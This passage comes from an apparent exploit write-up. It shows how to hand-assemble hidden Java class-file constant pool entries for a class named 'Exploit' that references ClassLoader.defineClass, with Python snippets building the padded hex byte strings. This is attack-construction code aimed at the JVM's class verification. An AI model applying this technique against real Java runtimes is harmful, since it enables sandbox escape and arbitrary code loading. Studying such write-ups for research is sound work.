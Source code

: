 ```
.const [this_utf] = Utf8 "Exploit"
010C: 01 0101 ... 

.const [this_cls] = Class [this_utf]
010D: 07 010C

.const [defineClass_nat] = NameAndType [defineClass_utf] [defineClass_desc_utf]
010E: 0C 0101 0103

.const [defineClass_method] = Method [this_cls] [defineClass_nat]
010F: 0A 010D 010E

.const [CL_init_nat] = NameAndType [init_utf] [init_desc_utf]
0110: 0C 0105 0107

.const [CL_init_method] = Method [super_cls] [CL_init_nat]
0111: 0A [super_cls] 0110
```

There are two things to note here. First, we couldn't define `[super_cls]` yet and had to leave it as a placeholder, since the bytecode we wrote previously requires its index to end in `05`. Second, `[defineClass_utf]`, `[defineClass_desc_utf]`, etc. are not hidden constants. We defined them previously using ordinary string literal `ldc`s. However, they are _referenced_ by hidden constants and thus have to appear at index `0101` or higher, which is why we had to add all those dummy strings before them earlier.

This leads to the following Python code to construct the hidden constants we've defined so far, where `----` is a placeholder to be filled in with `[super_cls]` later.
```py
s = '010101'.decode('hex') + 'Exploit/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
s += '07010C0C010101030A010D010E0C010501070A----0110'.decode('hex')
```

Next comes `[super_cls]`. The next available index that ends in `05` is `0205`, but we're currently at index `0112`, so we'll have to add a bunch of dummy constants again to fill up the space. Luckily, since we're creating the hidden constants directly rather than going through ASM, we don't have to worry about duplicates, and can just repeat the same constant over and over. Specifically, we'll just use the byte pattern `03 01010101`, which corresponds to the int constant `Int 0x01010101`.

```py
s += '0301010101'.decode('hex') * (0x205 - 0x112)
```

Now we can define `[super_cls]`, which is just `07 0109`, and also fill in the earlier placeholders with its index (`0205`) . This brings us to  

```py
s = '010101'.decode('hex') + 'Exploit/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
s += '07010C0C010101030A010D010E0C010501070A02050110'.decode('hex')
s += '0301010101'.decode('hex') * (0x205 - 0x112)
s += '070109'.decode('hex')
```
